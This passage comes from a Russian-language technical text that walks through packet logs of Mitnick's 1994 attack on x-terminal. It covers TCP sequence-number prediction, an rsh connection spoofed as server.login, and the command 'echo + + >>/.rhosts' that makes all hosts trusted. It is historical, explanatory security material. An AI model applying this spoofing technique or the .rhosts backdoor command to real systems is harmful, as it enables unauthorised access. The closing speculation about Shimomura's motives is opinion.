| Анализ приведенной распечатки пакетов показывает, что каждое последующее начальное значение ISN на хосте x-terminal.shell отличается от предыдущего на 128 000. Например: 2 024 256 000 - 2 024 128 000 = 128 000 или 2 024 128 000 - 2 024 000 000 = 128 000. Не правда ли, простейший закон генерации ISN? |
Далее мы видим поддельный запрос на создание TCP-соединения якобы с хоста server.login на x-teirminal.shell. При этом x-terminal доверяет хосту server и, следовательно, x-terminal будет выполнять все запросы, переданные с этого хоста (или с любого другого, подменившего хост server).
X-terminal затем отвечает на хост server пакетом SYN-ACK и ожидает подтверждения этого пакета АСК, что должно означать открытие соединения. Так как хост server игнорирует все пакеты, посланные на seruer.login, то поддельный пакет атакующего, подтвержденный АСК, должен иметь успех.
Обычно значение подтверждения (АСК) берется из пакета SYN-ACK. Однако атакующий, используя предсказание закона изменения начального значения идентификатора TCP-соединения на хосте x-terminal, сможет получить значение АСК без получения пакета SYN-ACK:
14:18:36.245045 server.login >
x-terminal.shell: S 1382727010:1382727010(0) win 4096
14:18:36.755522 server.login >
x-terminal.shell: . ack 2024384001 win 4096
| Используя полученную математическую зависимость для предсказания значения ISN, атакующий может послать следующий пакет от имени server, login со значением АСК, равным 2 024 384 001, вычисленным по его предыдущему значению 2 024 256 000 добавлением к нему 128 000 + 1 |
Хост атакующего сейчас имеет одностороннее соединение с x-terminal.shell, который считает, что это соединение открыто с server.login. Атакующий теперь может передавать пакеты с данными, содержащими верные значения ACK, на x-terminal. Далее, он посылает следующие пакеты:
14:18:37.265404 server.login >
x-terminal.shell: P 0:2(2) ack 1 win 4096
14:18:37.775872 server.login >
x-terminal.shell: P 2:7(5) ack 1 win 4096
14:18:38.287404 server.login >
x-terminal.shell: P 7:32(25) ack 1 win 4096
что означает выполнение следующей команды:
14:18:37 server# rsh x-terminal "echo + + >>/.rhosts"
| Завершая атаку, взломщик от имени server.login посылает на x-terminal.shell три пакета, что эквивалентно выполнению на хосте server следующей г-команды: rsh x-terminal "echo + + >>/.rhosts". Эта команда дописывает в файл /.rhosts строчку + + и делает доверенными все станции. |
Всего атака заняла менее 16 секунд.
Атакующий закрывает ложное соединение:
14:18:41.347003 server.login >
x-terminal.shell: . ack 2 win 4096
14:18:42.255978 server.login >
x-terminal.shell: . ack 3 win 4096
14:18:43.165874 server.login >
x-terminal.shell: F 32:32(0) ack 3 win 4096
14:18:52.179922 server.login >
x-terminal.shell: R 1382727043:1382727043(0) win 4096
14:18:52.236452 server.login >
x-terminal.shell: R 1382727044:1382727044(0) win 4096
Затем атакующий посылает RST-пакеты и, следовательно, закрывает ранее открытые односторонние соединения с server.login, тем самым освобождая очередь запросов.
14:18:52.298431 130.92.6.97.600 >
server.login: R 1382726960:1382726960(0) win 4096
14:18:52.363877 130.92.6.97.601 >
server.login: R 1382726961:1382726961(0) win 4096
14:18:52.416916 130.92.6.97.602 >
server.login: R 1382726962:1382726962(0) win 4096
14:18:52.476873 130.92.6.97.603 >
server.login: R 1382726963:1382726963(0) win 4096
14:18:52.536573 130.92.6.97.604 >
server.login: R 1382726964:1382726964(0) win 4096
14:18:52.600899 130.92.6.97.605 >
server.login: R 1382726965:1382726965(0) win 4096
14:18:52.660231 130.92.6.97.606 >
server.login: R 1382726966:1382726966(0) win 4096
14:18:52.717495 130.92.6.97.607 >
server.login: R 1382726967:1382726967(0) win 4096
14:18:52.776502 130.92.6.97.608 >
server.login: R 1382726968:1382726968(0) win 4096
14:18:52.836536 130.92.6.97.609 >
server.login: R 1382726969:1382726969(0) win 4096
14:18:52.937317 130.92.6.97.610 >
server.login: R 1382726970:1382726970(0) win 4096
14:18:52.996777 130.92.6.97.611 >
server.login: R 1382726971:1382726971(0) win 4096
14:18:53.056758 130.92.6.97.612 >
server.login: R 1382726972:1382726972(0) win 4096
14:18:53.116850 130.92.6.97.613 >
server.login: R 1382726973:1382726973(0) win 4096
14:18:53.177515 130.92.6.97.614 >
server.login: R 1382726974:1382726974(0) win 4096
14:18:53.238496 130.92.6.97.615 >
server.login: R 1382726975:1382726975(0) win 4096
14:18:53.297163 130.92.6.97.616 >
server.login: R 1382726976:1382726976(0) win 4096
14:18:53.365988 130.92.6.97.617 >
server.login: R 1382726977:1382726977(0) win 4096
14:18:53.437287 130.92.6.97.618 >
server.login: R 1382726978:1382726978(0) win 4096
14:18:53.496789 130.92.6.97.619 >
server.login: R 1382726979:1382726979(0) win 4096
14:18:53.556753 130.92.6.97.620 >
server.login: R 1382726980:1382726980(0) win 4096
14:18:53.616954 130.92.6.97.621 >
server.login: R 1382726981:1382726981(0) win 4096
14:18:53.676828 130.92.6.97.622 >
server.login: R 1382726982:1382726982(0) win 4096
14:18:53.736734 130.92.6.97.623 >
server.login: R 1382726983:1382726983(0) win 4096
14:18:53.796732 130.92.6.97.624 >
server.login: R 1382726984:1382726984(0) win 4096
14:18:53.867543 130.92.6.97.625 >
server.login: R 1382726985:1382726985(0) win 4096
14:18:53.917466 130.92.6.97.626 >
server.login: R 1382726986:1382726986(0) win 4096
14:18:53.976769 130.92.6.97.627 >
server.login: R 1382726987:1382726987(0) win 4096
14:18:54.039039 130.92.6.97.628 >
server.login: R 1382726988:1382726988(0) win 4096
14:18:54.097093 130.92.6.97.629 >
server.login: R 1382726989:1382726989(0) win 4096
Хост server.logm снова готов к приему запросов на создание соединения".
Мы намеренно не стали вдаваться в подробное литературное описание этого инцидента (беллетристики о Митнике более чем достаточно), а остановились только на технических подробностях данной удаленной атаки. В заключение приведем слова Шимомуры, сказанные им в интервью после поимки Митника: "Из того, что я видел, мне он не кажется таким уж большим специалистом". И добавил: "Проблема не в Кевине, проблема в том, что большинство систем действительно плохо защищены. То, что делал Митник, остается осуществимым и сейчас".
| Кстати, о том, был ли на самом деле Кевин Митник кракером высшего класса, спорят до сих пор. Начинал он, очевидно, как фрикер (phreaker) высшего класса. Однако его кракерскую деятельность трудно назвать профессиональной, так как он не отличился ничем, кроме профессионального лазанья по помойкам в поисках клочка бумаги с паролями пользователей и заговаривания зубов сетевым администраторам в попытках выудить у них те же пароли (этот вид "атак" теперь получил собственное название - социальная инженерия). Попав в тюрьму, Кевин, видимо, наконец поднабрался необходимого опыта в искусстве сетевого взлома и уже вполне подходил под тот образ суперхакера, который создала американская пресса. Но осуществленная Митником удаленная атака в связи с простейшим законом генерации ISN в ОС Solaris 1 является тривиальной, и, по сути, Шимомура сам на нее напросился. Наверное, если бы Шимомура действительно был таким крупным специалистом по информационной безопасности, каким его рисует пресса, он должен был знать о возможности подобного воздействия. Интересно, почему тогда он ничего не предпринимал? Может быть, ему нужен был этот взлом? До этого случая Шимомуру никто не знал, зато теперь он один из самых известных экспертов по безопасности. К сожалению, ответа на эти вопросы мы, видимо, не получим. |
| « | » |